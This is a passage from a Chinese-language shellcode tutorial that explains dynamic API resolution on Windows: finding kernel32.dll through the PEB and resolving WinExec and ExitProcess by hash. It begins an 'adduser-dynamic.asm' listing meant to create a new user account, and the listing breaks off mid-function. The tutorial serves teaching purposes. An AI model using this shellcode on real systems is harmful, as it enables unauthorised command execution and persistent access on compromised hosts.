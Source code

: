 The assembly code for this tutorial contains the following new functions that allow us to perform the above actions: 这个教程的汇编代码包含以下新函数,它们允许我们执行上述动作：

find_kernel32     find_function     resolve_symbols_for_dll

Shellcode 数据流

我们的 shellcode 中的第一个命令跳过所有已经用汇编代码定义的函数和在”main”中的汇编代码常量.对于这一点我们需要在我们函数地址的栈上分配空间.每个函数地址是 4 字节的,因此在用于存储两个函数地址的栈上分配 8 个字节.如果未来的 shellcode 使用一个额外的函数,那么这个值在栈上应该用 12 个字节表示-值得关心的是 10 进制标志和 16 进制标志

下一条指令把 ebp 作为一个栈帧指针.它在栈上作为一个不会改变的标志器.这允许我们引用跟 ebp 寄存器有关系的函数地址

正如下所示:

然后我们的 shellcode 调用”find_kernel32”,它把 Kernel32.dll 的地址放在 eax 寄存器中.之后我们找到我们的不变的函数 hash,然后调用”resolve_symbols_for_dll”.这个函数使用”find_function”,它在 Kernel32.dll 中遍历以找到使用我们 hash 的函数地址并在栈上把函数地址放到我们已经分配好的位置上.

我们的函数地址可以用如下调用指令调用:

```
call [ebp+4]     ;WinExec
call [ebp+8]     ;ExitProcess 
```

正如我们在教程 3 中所做的那样,我们现在可以开始用我们的自定义 shellcode 来调用这些函数以创建一个新用户,但是这次我们不能使用硬编码的函数地址了.记住下面的 shellcode 代码

The Shellcode

```
+--------------- Start adduser-dynamic.asm --------------+
;adduser-dynamic.asm
[SECTION .text]
BITS 32
global _start
_start:
    jmp start_asm
;DEFINE FUNCTIONS
;FUNCTION: find_kernel32
find_kernel32:
    push esi
    xor eax, eax
    mov eax, [fs:eax+0x30]
    test eax, eax
    js find_kernel32_9x
find_kernel32_nt:
    mov eax, [eax + 0x0c]
    mov esi, [eax + 0x1c]
    lodsd
    mov eax, [eax + 0x8]
    jmp find_kernel32_finished
find_kernel32_9x:
    mov eax, [eax + 0x34]
    lea eax, [eax + 0x7c]
    mov eax, [eax + 0x3c]
find_kernel32_finished:
    pop esi
    ret
;END FUNCTION: find_kernel32
;FUNCTION: find_function
find_function:
    pushad
    mov ebp, [esp + 0x24]
    mov eax, [ebp + 0x3c]
    mov edx, [ebp + eax + 0x78]
    add edx, ebp
    mov ecx, [edx + 0x18]
    mov ebx, [edx + 0x20]
    add ebx, ebp
find_function_loop:
```